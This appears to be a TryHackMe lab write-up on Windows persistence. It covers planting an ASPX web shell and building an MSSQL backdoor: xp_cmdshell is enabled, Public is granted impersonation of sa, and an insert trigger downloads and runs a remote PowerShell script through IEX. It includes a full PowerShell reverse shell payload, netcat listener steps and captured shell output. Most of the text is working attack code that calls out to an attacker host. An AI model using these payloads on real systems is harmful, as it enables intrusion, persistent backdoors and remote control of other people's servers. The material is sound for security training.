 ### Web Shells
```powershell
{nameofshell}

icacls {shell}.aspx /grant Everyone:F

move {shell}.aspx C:\inetpub\wwwroot\
```

Navigate to the shell from your browser: 10.10.101.206/cmdasp.aspx
```powershell
whoami /priv

c:\flags\flag16.exe
THM{EZ_WEB_PERSISTENCE}
```

### MSSql Backdoor

This backdoor scenario will utilize triggers, which are a way to allow MSSQL to bind actions to specific events in the database. *This is like an IF statement on a cronjob. If delete row run cmd.exe*

**We will be using the Gui for part of this**


Modify xp_cmdshell
```sql

New Query Button

	sp_configure 'Show Advanced Options',1;
	RECONFIGURE;
	GO

	sp_configure 'xp_cmdshell',1;
	RECONFIGURE;
	GO
```


Now we ensure websites accessing it can run xp_cmdshell. Only sysadmin role can do it by default
Lets make it so
```sql
USE master
GRANT IMPERSONATE ON LOGIN::sa to [Public];
```


Now we create the trigger
```sql
USE HRDB
```


Now we will have the payload downloaded from the attack machine on execution of the trigger
```sql

	CREATE TRIGGER [sql_backdoor]
	ON HRDB.dbo.Employees 
	FOR INSERT AS

	EXECUTE AS LOGIN = 'sa'
	EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://10.11.93.71:8000/evilscript.ps1'')"';
```

We will need 2 terminals to complete the rest of this

1) python3 -m http.server
2) nc -lvnp 4454

Browse to the web site http://10.10.101.206
	We should see a simple table for adding or removing values
	Add a new line to trigger the download and execution :) 

We will get the following shell
```bash
┌──(sstephens㉿kali-ppt)-[~/Documents/tryhackme/win_local_pers/persisting]
└─$ nc -lvnp 4454
listening on [any] 4454 ...
connect to [10.11.93.71] from (UNKNOWN) [10.10.101.206] 49995
whoami
nt service\mssql$sqlexpress
PS C:\Windows\system32> c:\flags\flag17
THM{I_LIVE_IN_YOUR_DATABASE}

PS C:\Windows\system32> 

```

**Payload** 
evilscript.ps1
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.11.93.71",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```
